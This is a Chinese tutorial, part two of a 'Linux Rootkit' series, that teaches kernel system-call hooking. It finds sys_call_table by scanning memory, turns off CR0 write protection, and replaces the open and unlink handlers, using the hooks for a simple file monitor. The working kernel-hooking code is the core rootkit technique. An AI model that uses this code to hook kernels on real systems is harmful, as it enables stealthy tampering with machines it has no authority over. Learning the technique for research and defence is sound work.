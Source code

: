Linux Rootkit 系列二：基于修改 `sys_call_table`_ 的系统调用挂钩
===============================================================

**rectigu@gmail.com**, 二〇一六年五月。

前言： `《Linux Rootkit 系列一： LKM 的基础编写及隐藏》`_
的作者似乎跑路了；留下的这个口锅，我试着背一下。
鉴于笔者知识能力上的不足，如有问题欢迎各位扔豆腐，不要砸砖头。

与第一篇文章作者所想象的不同，
本文不打算给大家介绍三种不同的系统调用挂钩技术，
相反，本文仅详细讲解最简单的系统调用挂钩方案，
并且基于这个方案实现最基本的文件监视工具。
这样，既可以让读者轻松上手进行实际应用，
又可以加深、巩固读者对 LKM_ 的理解，
同时还免去了一次学习多种挂钩方案的理论知识压力。

所以，本文力求以实验为核心，每一个步骤都可能有对应的实验代码。
代码仓库： https://github.com/NoviceLive/research-rootkit 。
代码在最新的 64 比特 Arch_ 与 Kali_ 上面测试正常。

测试建议：如果读者使用 tmux_ 或者类似的工具，
则可以垂直分割你的终端窗口，
一个窗口开一个 ``sudo dmesg -C && dmesg -w`` ，用于查看日志；
另一个窗口用来做其他操作，比如构建、加载内核模块。
不用 tmux_ 也没关系，开两个终端，各占半个屏幕。

第一部分：基于修改 `sys_call_table`_ 的系统调用挂钩
---------------------------------------------------

在系统调用挂钩技术中，最简单、最流行的方案是修改 `sys_call_table`_ ，
成员类型为函数指针的一维数组。

::

   asmlinkage const sys_call_ptr_t sys_call_table[__NR_syscall_max+1] = {
   	/*
   	 * Smells like a compiler bug -- it doesn't work
   	 * when the & below is removed.
   	 */
   	[0 ... __NR_syscall_max] = &sys_ni_syscall,
   #include <asm/syscalls_64.h>
   };

要修改它，首先得拿到它在内存里的位置。
然后，由于 `sys_call_table`_ 所在的内存是有写保护的，
所以我们需要先去掉写保护，再做修改。

1. 获得 `sys_call_table`_ 的内存地址
++++++++++++++++++++++++++++++++++++

在综合考量了几种可选的获取方案之后，
笔者决定采用从内核起始地址开始暴力搜索内存空间的方案。
（ **但是这种方案有可能被欺骗** 。）

其他可能的方案有，一，从 /boot/System.map 中读取，
感兴趣的读者可以查阅
`Hooking the Linux System Call Table`_ ，
这篇文章便是使用这种方案来获取 `sys_call_table`_ 的地址的。

二，从使用了 `sys_call_table`_ 的某些未导出函数的机器码里面进行特征搜索，
感兴趣的读者可以查阅
`Kernel-Land Rootkits`_ ，
作者花了几张 slides
阐述了如何从导出的函数中获取使用了 `sys_call_table`_ 的未导出函数，
进而搜索那个未导出函数的机器码，
得到 `sys_call_table`_ 的地址；等等。

值得指出的是，
感兴趣的读者在测试这些本文未涉及的方案时，
如果遇到了疑惑或者困难，也可以与笔者联系、交流。

直接看代码。

::

   unsigned long **
   get_sys_call_table(void)
   {
     unsigned long **entry = (unsigned long **)PAGE_OFFSET;

     for (;(unsigned long)entry < ULONG_MAX; entry += 1) {
       if (entry[__NR_close] == (unsigned long *)sys_close) {
           return entry;
         }
     }

     return NULL;
   }

`PAGE_OFFSET`_ 是内核内存空间的起始地址。
因为 `sys_close`_ 是导出函数（需要指出的是， ``sys_open`` 、 ``sys_read`` 等并不是导出的），
我们可以直接得到他的地址；因为系统调用号
（也就是 `sys_call_table`_ 这个一维数组的索引）
在同一 ABI_ （x86 跟 x64 不是同一 ABI）上具有高度的后向兼容性，
更重要的是，我们可以直接使用这个索引（代码中的 ``__NR_close`` ）！

从内核内存的起始地址开始，
逐一尝试每一个指针大小的内存：把它当成是 `sys_call_table`_ 的地址，
用某个系统调用的编号（也就是索引）访问数组中的成员，
如果访问得到的值刚好是是这个系统调用号所对应的系统调用的地址，
那么我们就认为当前尝试的这块指针大小的内存就是我们要找的
`sys_call_table`_ 的地址。

.. image:: sys_call_table.png

2. 关闭写保护
+++++++++++++

写保护指的是写入只读内存时出错。
这个特性可以通过 CR0_ 寄存器控制：开启或者关闭，
只需要修改一个比特，也就是从 0 开始数的第 16 个比特。

看代码。我们可以使用 `read_cr0`_ / `write_cr0`_
来读取 / 写入 CR0_ 寄存器，
免去我们自己写内联汇编的麻烦。

函数原型。

::

   static inline unsigned long read_cr0(void);

   static inline void write_cr0(unsigned long x);

关闭写保护的源代码：将 CR0_ 寄存器从 0 开始数的第 16 个比特置为 0。

::

   void
   disable_write_protection(void)
   {
     unsigned long cr0 = read_cr0();
     clear_bit(16, &cr0);
     write_cr0(cr0);
   }

开启写保护的源代码：将 CR0_ 寄存器从 0 开始数的第 16 个比特置为 1。

::

   void
   enable_write_protection(void)
   {
     unsigned long cr0 = read_cr0();
     set_bit(16, &cr0);
     write_cr0(cr0);
   }


在设置或者清除某个比特，我们使用了 `set_bit`_ 与 `clear_bit`_ 。
它们是 Linux 内核提供给内核模块使用的编程接口，简单易懂，
同时还免去了我们自己写那种很难读的位运算的痛苦。

函数原型。

::

   static __always_inline void
   set_bit(long nr, volatile unsigned long *addr);

   static __always_inline void
   clear_bit(long nr, volatile unsigned long *addr);

.. image:: write_protection.png

3. 修改 `sys_call_table`_
+++++++++++++++++++++++++

一维数组赋值，当之无愧最简单的方案。当然，我们需要先把真正的值保存好，以备后面之需。

::

   disable_write_protection();
   real_open = (void *)sys_call_table[__NR_open];
   sys_call_table[__NR_open] = (unsigned long*)fake_open;
   real_unlink = (void *)sys_call_table[__NR_unlink];
   sys_call_table[__NR_unlink] = (unsigned long*)fake_unlink;
   real_unlinkat = (void *)sys_call_table[__NR_unlinkat];
   sys_call_table[__NR_unlinkat] = (unsigned long*)fake_unlinkat;
   enable_write_protection();

4. 恢复
+++++++

::

   disable_write_protection();
   sys_call_table[__NR_open] = (unsigned long*)real_open;
   sys_call_table[__NR_unlink] = (unsigned long*)real_unlink;
   sys_call_table[__NR_unlinkat] = (unsigned long*)real_unlinkat;
   enable_write_protection();


第二部分：基于系统调用挂钩的初级文件监视
----------------------------------------

监视文件的创建与删除。
我们挂钩 `sys_open`_, `sys_unlink`_, `sys_unlinkat`_ 这三个函数，
并且在我们的钩子函数把操作到的文件名打印出来，
然后把控制交给真正的系统调用处理。

1. `sys_open`_ 的钩子函数： ``fake_open``
+++++++++++++++++++++++++++++++++++++++++

考虑到在系统运行时，对文件的读写操作从未中断，
这里只打印了进行创建操作的文件名，准确地说是，
`sys_open`_ 的 ``flags`` 中包含 `O_CREAT`_ 。

::

   asmlinkage long
   fake_open(const char __user *filename, int flags, umode_t mode)
   {
     if ((flags & O_CREAT) && strcmp(filename, "/dev/null") != 0) {
       printk(KERN_ALERT "open: %s\n", filename);
     }

     return real_open(filename, flags, mode);
   }

   注：这里的 `strcmp`_ 也是内核提供的。

2. `sys_unlink`_ 与 `sys_unlinkat`_ 的钩子函数： ``fake_unlink`` 与 ``fake_unlinkat``
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

简单处理，直接打印路径名。

   ::

      asmlinkage long
      fake_unlink(const char __user *pathname)
      {
        printk(KERN_ALERT "unlink: %s\n", pathname);

        return real_unlink(pathname);
      }

      asmlinkage long
      fake_unlinkat(int dfd, const char __user * pathname, int flag)
      {
        printk(KERN_ALERT "unlinkat: %s\n", pathname);

        return real_unlinkat(dfd, pathname, flag);
      }

3. 测试我们的文件监视工具
+++++++++++++++++++++++++

初级的文件监视就到这了，以后我们在做进一步的改进与完善。

.. image:: fsmon.png


第三部分：参考资料与延伸阅读
----------------------------

1. 参考资料
+++++++++++

- `Linux Cross Reference`_
- `The Linux Kernel API`_
- `How the Linux kernel handles a system call`_
- CR0_

2. 延伸阅读
+++++++++++

- `Hooking the Linux System Call Table`_
- `Kernel-Land Rootkits`_


.. _《Linux Rootkit 系列一： LKM 的基础编写及隐藏》: http://www.freebuf.com/articles/system/54263.html

.. _Hooking the Linux System Call Table: https://tnichols.org/2015/10/19/Hooking-the-Linux-System-Call-Table/
.. _Kernel-Land Rootkits: http://www.kernelhacking.com/rodrigo/docs/StMichael/kernel-land-rootkits.pdf

.. _LKM: https://en.wikipedia.org/wiki/Loadable_kernel_module
.. _ABI: https://en.wikipedia.org/wiki/Application_binary_interface
.. _CR0: https://en.wikipedia.org/wiki/Control_register#CR0

.. _The Linux Kernel API: https://www.kernel.org/doc/htmldocs/kernel-api/index.html
.. _set_bit: https://www.kernel.org/doc/htmldocs/kernel-api/API-set-bit.html
.. _clear_bit: https://www.kernel.org/doc/htmldocs/kernel-api/API-clear-bit.html
.. _strcmp: https://www.kernel.org/doc/htmldocs/kernel-api/API-strcmp.html

.. _Linux Cross Reference: http://lxr.free-electrons.com/
.. _read_cr0: http://lxr.free-electrons.com/ident?i=read_cr0
.. _write_cr0: http://lxr.free-electrons.com/ident?i=write_cr0
.. _sys_close: http://lxr.free-electrons.com/ident?i=sys_close
.. _sys_open: http://lxr.free-electrons.com/ident?i=sys_open
.. _sys_unlink: http://lxr.free-electrons.com/ident?i=sys_unlink
.. _sys_unlinkat: http://lxr.free-electrons.com/ident?i=sys_unlinkat
.. _sys_call_table: http://lxr.free-electrons.com/ident?i=sys_call_table
.. _PAGE_OFFSET: http://lxr.free-electrons.com/ident?i=PAGE_OFFSET
.. _O_CREAT: http://lxr.free-electrons.com/ident?i=O_CREAT

.. _Arch: https://www.archlinux.org/
.. _Kali: https://www.kali.org/

.. _How the Linux kernel handles a system call:  https://0xax.gitbooks.io/linux-insides/content/SysCall/syscall-2.html

.. _tmux: https://tmux.github.io/
